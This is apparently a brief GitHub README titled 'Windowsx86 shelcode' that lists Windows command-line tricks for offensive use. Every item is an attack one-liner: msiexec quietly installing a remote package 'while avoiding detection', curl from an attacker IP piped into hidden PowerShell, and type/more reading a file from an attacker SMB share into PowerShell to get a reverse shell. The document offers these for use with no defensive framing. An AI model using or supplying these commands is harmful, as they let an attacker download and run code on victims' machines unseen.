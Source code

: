 # Windowsx86 shelcode

1). Windows installer is used to install software or a patch, but we can take advantage of this built in windows tool to download and execute remote payload in the background while avoiding detection.
	
	Command-Line:  msiexec /i http://server/package.msi /qn

2). Windows 10 version 1803 (and earlier, with insider build 17063) includes a native curl.exe in C:\Windows\System32\, which you can access right from your regular CMD.
	
	Command-Line: curl http://<attacker-ip>/<filename>.txt | powershell -w h

3). Some new ways of getting a reverse shell using windows one-liner:
	
	Command-Line: type \\<attacker-ip>\<filename>.txt | powershell -w h
	Command-Line: more \\<attacker-ip>\<filename>.txt | powershell -w h


Refer:
https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/

